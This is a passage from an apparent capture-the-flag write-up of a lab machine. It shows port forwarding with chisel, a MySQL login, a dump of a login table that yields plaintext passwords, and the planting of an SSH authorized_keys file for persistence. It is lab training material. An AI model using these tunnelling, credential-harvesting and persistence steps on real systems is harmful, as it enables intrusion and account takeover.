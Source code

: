 ```powershell
./chisel server --socks5 --port 51234
./chisel client 10.10.10.185:51234 127.0.0.1:3306:127.0.0.1:3306
```

```powershell
mysql -u theseus -p  -P 3306 --ssl=0
```

```sql
show databases;
use Magic;
```

![image.png](image%205.png)

![image.png](image%206.png)

```sql
show tables;
show columns from login;
```

![image.png](image%207.png)

```sql
select * from login;
```

![image.png](image%208.png)

I changed user to theseus using that password.

## Credentials

```powershell
theseus : iamkingtheseus
admin : Th3s3usW4sK1ng
```

## Privilege Escalation

Let’s add authorized_keys file to ensure persistance as `ssh` supports only key authentication.

```sql
ssh-keygen -t rsa
```

- **VERY important:**
    - `.ssh` must be `700`
    - `authorized_keys` must be `600`
    - Owned by `theseus`
    
    Otherwise SSH **refuses** to use them.
    

```sql
chmod 600 authorized_keys
chmod 700 .ssh
chmod 600 id_rsa_private
```
